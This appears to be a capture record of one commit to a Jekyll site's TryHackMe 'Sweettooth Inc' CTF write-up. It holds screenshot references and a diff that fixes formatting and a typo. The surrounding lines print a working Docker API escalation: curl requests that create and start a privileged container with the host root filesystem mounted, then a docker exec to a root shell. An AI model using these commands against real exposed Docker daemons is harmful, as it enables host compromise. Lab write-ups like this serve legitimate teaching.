

Before and after one commit to bitcriminals/bitcriminals.github.io, a Jekyll site: the page built from writeups/_tryhackme/Sweettooth_Inc.md, in a window 1280 px wide and 1400 px high, scrolled down 5938 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries.

Commit message:
Update Sweettooth_Inc.md

````diff
--- a/writeups/_tryhackme/Sweettooth_Inc.md
+++ b/writeups/_tryhackme/Sweettooth_Inc.md
@@ -108,10 +108,11 @@ Using the command
 ``` curl –insecure -X POST -H "Content-Type: application/json" http://127.0.0.1:2376/containers/create?name=test -d '{"Image":"sweettoothinc", "Cmd":["/usr/bin/tail", "-f", "1234", "/dev/null"], "Binds": [ "/:/mnt" ], "Privileged": true}' ```
 
 Returns the id of our container
-```{"Id":"39d4cf768ec3fae31a9af685cefcba1244a351acb88841a5c822e7bceb4009d3","Warnings":null}
+```
+"Id":"39d4cf768ec3fae31a9af685cefcba1244a351acb88841a5c822e7bceb4009d3","Warnings":null
 ```
 
-Now we start the container using
+Now we start the container using the command
 ```
 curl –insecure -X POST -H "Content-Type: application/json" http://127.0.0.1:2376/containers/39d4cf768ec3fae31a9af685cefcba1244a351acb88841a5c822e7bceb4009d3/start?name=test
 ```
@@ -121,7 +122,7 @@ We gain root shell using the command
 docker -H 127.0.0.1:2376 exec -it 39d4cf768ec3 /bin/bash
 ```
 
-And viola we are root now
+And voila we are root now
 
 ```
 root@39d4cf768ec3:/# whoami
````
